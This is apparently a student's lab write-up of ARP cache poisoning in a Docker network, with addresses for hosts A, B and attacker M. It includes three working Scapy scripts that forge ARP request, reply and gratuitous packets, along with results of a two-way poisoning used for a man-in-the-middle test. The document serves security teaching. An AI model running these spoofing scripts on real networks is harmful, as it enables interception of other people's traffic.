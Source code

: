 # Layer 2 - ARP Attacks


##Setup:

No acces to GUI -> Send file from local machine to VM

docker-compose build
docker-compose up
docker ps
![alt text](image.png)

Logging into all three containers

finding out Mac-Adress via: ipconfig
Mac Address and IPs

IP Addresses:
```
A: 10.9.0.5
B: 10.9.0.6
M: 10.9.0.105
``` 

MAC Addresses:
```
A: 02:42:0a:09:00:05
B: 02:42:0a:09:00:06
M: 02:42:0a:09:00:69
```

## Task 1

### Task 1.A (using ARP request)
On host M, construct an ARP request packet to map B’s IP address
to M’s MAC address. Send the packet to A and check whether the attack is successful or not.

#### Script used:
``` python 
#!/usr/bin/env python3
from scapy.all import *
 
E = Ether()
 
E.dst = "02:42:0a:09:00:05" #A MAC address
E.src = "02:42:0a:09:00:69" #M MAC address
 
A = ARP()
A.op    = 1                     # 1 for ARP request; 2 for ARP reply
A.hwsrc = "02:42:0a:09:00:69"   #M MAC address
A.psrc  = "10.9.0.6"            #B IP address
 
A.hwdst = "02:42:0a:09:00:05"   #A MAC address
A.pdst  = "10.9.0.5"            #A IP address
 
pkt = E/A
sendp(pkt)
```
#### Result:
![alt text](image-1.png)

---

### Task 1.B (using ARP reply) 
On host M, construct an ARP reply packet to map B’s IP address to
M’s MAC address. Send the packet to A and check whether the attack is successful or not.
Scenarios
1.  B’s IP is already in A’s cache.
2.  B’s IP is not in A’s cache

#### Script used:
``` python 
#!/usr/bin/env python3
from scapy.all import *
 
E = Ether()
 
E.dst = "02:42:0a:09:00:05" #A MAC address
E.src = "02:42:0a:09:00:69" #M MAC address
 
A = ARP()
A.op    = 2                     # 1 for ARP request; 2 for ARP reply
A.hwsrc = "02:42:0a:09:00:69"   #M MAC address
A.psrc  = "10.9.0.6"            #Spoofed B IP address
 
A.hwdst = "02:42:0a:09:00:05"   #A MAC address
A.pdst  = "10.9.0.5"            #A IP address
 
pkt = E/A
sendp(pkt)
```
#### Results
- Not successful for scenario 1: arp -a returned nothing
- Successful for scenario 2: After pinging Host B and confirming ARP entry, the entry changes after the script execution
![image](https://github.com/user-attachments/assets/29126256-25a2-47eb-8fb4-12fbccecbf84)

---

### Task 1.C (using ARP gratuitous message)
On host M, construct an ARP gratuitous packet, and use
it to map B’s IP address to M’s MAC address. Please launch the attack under the same two scenarios
as those described in Task 1.B.
ARP gratuitous packet is a special ARP request packet. It is used when a host machine needs to
update outdated information on all the other machine’s ARP cache. The gratuitous ARP packet has
the following characteristics:
- The source and destination IP addresses are the same, and they are the IP address of the host
issuing the gratuitous ARP.
- The destination MAC addresses in both ARP header and Ethernet header are the broadcast MAC
address (ff:ff:ff:ff:ff:ff).
- No reply is expected.

#### Script used:
``` python
#!/usr/bin/env python3
from scapy.all import *
 
E = Ether()
 
E.dst = "ff:ff:ff:ff:ff:ff" #Broadcast MAC address
E.src = "02:42:0a:09:00:69" #M MAC address
 
A = ARP()
A.op    = 1                     # 1 for ARP request; 2 for ARP reply
A.hwsrc = "02:42:0a:09:00:69"   #M MAC address
A.psrc  = "10.9.0.6"            #Spoofed B IP address
 
A.hwdst = "ff:ff:ff:ff:ff:ff"   #Broadcast MAC address
A.pdst  = "10.9.0.6"            #B IP address
 
pkt = E/A
sendp(pkt)
```

#### Results:
--> Same as in 1B
- Not successful for scenario 1: arp -a returned nothing
- Successful for scenario 2: After pinging Host B and confirming ARP entry, the entry changes after the script execution
- But: targets multiple hosts
![image](https://github.com/user-attachments/assets/5d218596-2fed-4e14-a281-0bef70d49ac4)

---

## Task 2

### Step 1: Poison the ARP caches

- [x] In A's cache: B's IP address maps to M's MAC address
![image](https://github.com/user-attachments/assets/ee675787-4807-4192-aa70-55a53fc0ea66)

- [x] In B's cache: A's IP address maps to M's MAC address
![image](https://github.com/user-attachments/assets/d8c4bc2e-e9e8-4509-8419-8234ea99fae1)

### Step 2: Test Ping between A and B without IP forwarding on M
#### Result:
- only some icmp packets go through --> inconsistent icmp_seq numbers
- noticable delay between ping responses
![image](https://github.com/user-attachments/assets/58abdd81-3e24-4041-9310-b563404ffcbb)

### Step 3: Test Ping between A and B with IP forwarding on M
#### Result:
- All icmp packets arrive
- Destination IP address is not the pinged address
- Redirect host message
![image](https://github.com/user-attachments/assets/7cf2f12c-62f2-4fab-9194-ebb6858ab54c)











